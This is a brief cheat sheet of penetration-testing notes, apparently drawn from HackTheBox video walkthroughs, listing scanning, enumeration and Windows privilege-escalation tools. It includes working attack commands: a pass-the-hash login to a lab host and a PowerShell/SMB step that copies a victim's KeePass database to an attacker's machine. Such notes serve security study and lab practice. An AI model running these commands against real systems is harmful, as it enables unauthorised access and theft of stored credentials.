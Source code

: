look at https://ippsec.rocks/ to search his vids

nmap -sC -sV -oA outputFile IP

-Pass the hash attack to login as a user
   pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
   
-transfer files from powershell to attcker kali set up an smb server
  on Kali
    impacket-smb server PleaseSubscribe 'pwd'
  on vulnerable machine in powershell
   New-PSDrive -Name "FollowOnTwitter" -PSProvider "FileSystem" -Root "\\kaliIP\PleaseSubscribe"
   cp C:\Users\kohsuke\Documents\CEH.kdbx .
   
 - powersploit is a good powershell privesc script
    clone and use from developer branch as it enumerates more stuff
    
- common windows privesc exploit: rottenpotato

Hashes.org and hashkiller best website hash cracking

-gobuster 
  -k flag ignores ssl
  shorepoint has its own directory wordlist
  
-connect to webdav using cadaver tool

-ad DNS names to host file to hit them all
  Ippsec cronos is a good example
  
-oracle odat tool

Good website for basic enumeration for ports/services found: http://0daysecurity.com/penetration-testing/enumeration.html

